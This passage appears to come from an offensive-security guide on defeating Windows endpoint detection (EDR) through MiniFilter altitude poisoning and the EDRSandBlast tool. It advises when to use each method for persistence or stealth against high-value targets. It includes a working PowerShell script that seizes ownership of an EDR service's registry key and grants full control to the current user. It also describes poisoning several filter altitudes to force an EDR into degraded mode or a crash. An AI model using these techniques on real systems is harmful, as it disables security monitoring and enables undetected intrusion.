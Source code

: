 **When to Use MiniFilter Altitude:**
- Pre-installation attacks (supply chain, installer tampering)
- Persistent EDR bypass across reboots
- Avoiding kernel-mode detection (HVCI/VBS environments)
- Long-term access where reboot is acceptable

**When to Use EDRSandBlast:**
- Active engagement requiring immediate EDR bypass
- Single-session operations (no persistence needed)
- Target environment blocks MiniFilter registry modification
- Reboot is not acceptable (high-value target, immediate detection risk)

## Mitigation Bypass

### Protected Registries (Windows 10 1903+)

Windows protects certain registry paths via Access Control Lists (ACLs). MiniFilter altitude keys may be protected:

**Bypass Technique:**
1. Take ownership of registry key via `TakeOwn` API
2. Modify ACL to grant write permissions
3. Apply altitude poisoning
4. Restore original ACL (optional, for stealth)

```powershell
# Example: Take ownership and modify ACL
$regPath = "HKLM:\SYSTEM\CurrentControlSet\Services\TargetEDR\Instances"
$acl = Get-Acl $regPath
$owner = [System.Security.Principal.NTAccount]"Administrators"
$acl.SetOwner($owner)
Set-Acl -Path $regPath -AclObject $acl

# Grant full control to current user
$rule = New-Object System.Security.AccessControl.RegistryAccessRule(
    [System.Security.Principal.WindowsIdentity]::GetCurrent().Name,
    "FullControl",
    "ContainerInherit,ObjectInherit",
    "None",
    "Allow"
)
$acl.AddAccessRule($rule)
Set-Acl -Path $regPath -AclObject $acl
```

### Filter Manager Integrity Checks

Modern EDRs verify their altitude registration integrity during runtime:

**Bypass Technique:**
- Poison MULTIPLE altitudes in FSFilter Anti-Virus range (320000-329999)
- EDR attempts fallback altitude registration, encounters another collision
- Repeat failure forces EDR into degraded mode or crash
